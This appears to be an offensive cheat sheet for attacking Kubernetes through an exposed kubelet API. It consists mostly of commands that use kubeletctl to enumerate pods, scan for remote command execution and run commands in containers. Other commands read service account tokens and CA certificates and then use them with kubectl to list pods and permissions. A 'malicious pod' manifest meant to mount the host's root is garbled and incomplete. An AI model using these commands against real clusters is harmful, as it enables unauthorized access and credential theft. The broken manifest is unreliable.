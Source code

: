 ```bash
curl https://$IP:$API_PORT/ -k
```

```kubeletctl``` https://github.com/cyberark/kubeletctl
- Run any kubelet API call
- Scan for nodes with opened kubelet API
- Scan for containers with RCE
- Run a command on all the available containers by kubelet at the same time
- Get service account tokens from all available containers by kubelet

**_NOTE: kubelet usually runs on PORT 10250_**

```bash
# extract all of the pods from the k8s cluster
kubeletctl --server $IP pods
```

```bash
# scan for pods vulnerable to RCE
kubeletctl --server $IP scan rce
kubeletctl --server $IP exec "cmd" -p $POD_NAME -c $CONTAINER_NAME
```

```bash
# get access to tokens and certificates
kubeletctl --server $IP exec \
"cat /var/run/secrets/kubernetes.io/serviceaccount/token"
"cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt"
```

```kubectl``` 
```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

```bash
# list pods
kubectl --token=$token --certificate-authority=ca.crt \
--server=https://$IP:$API_IP get pods

# list permissions 
kubectl --token=$token --certificate-authority=ca.crt \
--server=https://$IP:$API_PORT auth can-i --list

# example pods           []            []               [get create list]
```

# MALICIOUS POD


```yml
apiVersion: v1 
kind: Pod 
metadata:
	name: nginxt 
	namespace: default
spec: 
	containers:
		- name: nginxt 
		  image: nginx:1.14.2 
		  volumeMounts:
			- mountPath: /root name: mount-root-into-mnt
			  name: mount-root-into-mnt
```
